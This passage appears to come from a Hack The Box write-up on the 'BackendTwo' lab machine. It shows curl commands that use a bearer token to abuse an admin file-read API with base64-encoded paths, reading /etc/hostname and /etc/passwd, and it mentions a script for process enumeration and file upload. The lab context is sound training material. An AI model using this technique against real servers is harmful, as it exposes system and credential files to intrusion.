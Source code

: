 ```console
root@kali:~/htb/Machines/BackendTwo# echo -ne '/etc/hostname' | base64
L2V0Yy9ob3N0bmFtZQ==

root@kali:~/htb/Machines/BackendTwo# curl -s -H "Authorization: Bearer $TOKEN" http://backendtwo.htb/api/v1/admin/file/L2V0Yy9ob3N0bmFtZQ==
{"file":"BackendTwo\n"}

root@kali:~/htb/Machines/BackendTwo# curl -s -H "Authorization: Bearer $TOKEN" http://backendtwo.htb/api/v1/admin/file/L2V0Yy9ob3N0bmFtZQ== | jq '.file' -r
BackendTwo
```

I got the contents of `/etc/hostname`.

Since it will be executed many times, I implemented Python script.
(I also implemented the `/proc/{pid}/cmdline` enumeration and file upload function, which will be called later.)

<details><summary>file.py</summary></details>

<details><summary>/etc/passwd</summary></details>

I got `/etc/passwd` also.
`htb` user is there.

### Upload file Feature
